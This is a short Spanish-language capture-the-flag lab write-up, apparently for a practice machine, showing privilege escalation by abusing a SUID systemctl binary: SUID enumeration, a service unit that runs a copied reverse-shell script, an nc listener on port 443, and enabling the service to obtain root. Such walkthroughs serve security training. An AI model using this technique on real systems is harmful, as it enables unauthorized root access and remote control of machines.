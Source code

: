 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
cd /home/pepper
ls
cd /Web
cd /Logs
cat 10.10.14.7.txt
```

Aqui vemos que nos a loggeado toda la Injeccion SQL.

```bash
id
sudo -l
find \-perm -4000 2>/dev/null
```

Vemos que systemctl es SUID y que tiene proprietario root

```bash
cd 
mkdir privesc
cd privesc
cp /tmp/reverse.sh privesc.sh
```

Aqui nos vamos a crear un systemctl service file -> `nano privesc.service`

```bash
[Unit]
Description=EEEEEEEe

[Service]
ExecStart=/home/pepper/privesc/privesc.sh

[Install]
WantedBy=multi-user.target
```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. Creamos un link del servicio

    ```bash
    systemctl link /home/pepper/privesc/privesc.service
    ```

1. Lanzamos el servicio

    ```bash
    systemctl enable --now /home/pepper/privesc/privesc.service
    ```


`whoami` -> root ;)
